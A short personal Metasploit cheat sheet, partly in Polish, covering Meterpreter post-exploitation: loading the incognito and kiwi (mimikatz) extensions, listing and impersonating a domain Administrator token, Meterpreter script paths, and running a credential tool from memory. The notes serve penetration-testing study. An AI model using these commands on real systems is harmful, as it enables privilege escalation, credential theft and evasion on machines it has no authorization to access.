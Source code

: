 ## Meterpreter Extensions

```bash
load <nazwa modułu>
    incognito # Access Token Impersonation
    kiwi # mimikatz dla msf
```

### kiwi

https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/
![[tools/mimikatz#Mimikatz]]
### incognito

Impersonate user tokens when successfully compromising a system.

Once you have a Meterpreter session, you can impersonate valid tokens on the system and become that specific user without ever having to worry about credentials, or for that matter, even hashes

```PowerShell
$ msfconsole
...
load incognito # load module "incognito"
list_tokens -u  # Lists all accessible tokens and their privilege level
impersonate_token "ATTACKDEFENSE\\Administrator"
getuid
```

### Skrypty

https://www.offsec.com/metasploit-unleashed/existing-scripts/
https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts

folder ze skryptami: `/usr/share/metasploit-framework/scripts`  
skrypty w meterpreter : `/usr/share/metasploit-framework/scripts/meterpreter`  
`meterpreter > run getcountermeasure`

### Execute from Memory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md#execute-from-memory

```PowerShell
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

# Pluginy

https://docs.metasploit.com/docs/using-metasploit/intermediate/how-to-use-plugins.html

# Baza danych Metasploit
